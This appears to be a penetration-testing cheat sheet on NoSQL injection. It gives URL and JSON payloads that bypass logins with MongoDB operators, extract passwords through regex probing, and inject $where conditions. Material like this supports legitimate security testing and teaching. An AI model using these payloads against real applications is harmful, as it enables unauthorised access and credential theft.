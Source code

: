 # NoSQL Injection

## Theory

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Practice

#### Authentication Bypass

{% tabs %}
{% tab title="URL" %}
Using not equal ($ne) or greater ($gt) we can try to bypass authentication

```bash
username[$ne]=toto&password[$ne]=toto          #Not Equal
username[$regex]=.*&password[$regex]=.*        #Regex
username[$exists]=true&password[$exists]=true  #If Exist
username[$ne]=admin&password[$gt]=0            #Greater
```
{% endtab %}

{% tab title="JSON" %}
Using not equal ($ne) or greater ($gt) we can try to bypass authentication

```bash
{"username": {"$ne": null}, "password": {"$ne": null} }             #Not Equal
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }           #Not Equal
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }   #greater
```
{% endtab %}
{% endtabs %}

#### Extract data

{% tabs %}
{% tab title="URL" %}
We can use regex to find the length of a value

```bash
username[$regex]=.{25}&pass[$ne]=1
```

We can use regex to extract information.

```bash
username[$eq]=admin&password[$regex]=^p
username[$eq]=admin&password[$regex]=^pa
username[$eq]=admin&password[$regex]=^pas

username[$ne]=toto&password[$regex]=^p
username[$ne]=toto&password[$regex]=^pa
username[$ne]=toto&password[$regex]=^pas
```

We can use `$nin` (not in) if you don't want to match with some values.

```bash
#<Matches non of the values of the array> (not test and not admin)
username[$nin][admin]=admin&username[$nin][test]=test&password[$regex]=^p
```
{% endtab %}

{% tab title="JSON" %}
We can use regex to find the length of a value

```bash
{"username": {"$eq": "admin"}, "password": {"$regex": ".{25}" }}
```

We can use regex to extract information.

```bash
{"username": {"$eq": "admin"}, "password": {"$regex": "^p" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pa" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pas" }}
```

We can use `$nin` (not in) if you don't want to match with some values.

```bash
#<Matches non of the values of the array> (not test and not admin)
{"username":{"$nin":["admin", "test"]}, "username":{"$regex": "^user" } ,"password":{"$ne":"1"}} 
```
{% endtab %}
{% endtabs %}

#### MangoDB Injection

{% tabs %}
{% tab title="Payloads" %}
You may try to make boolean based injection on MongoDB with following payloads

```
, $where: '1 == 1'
$where: '1 == 1'
' || 1==1//
' || 1==1%00
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#extract-length-information" %}
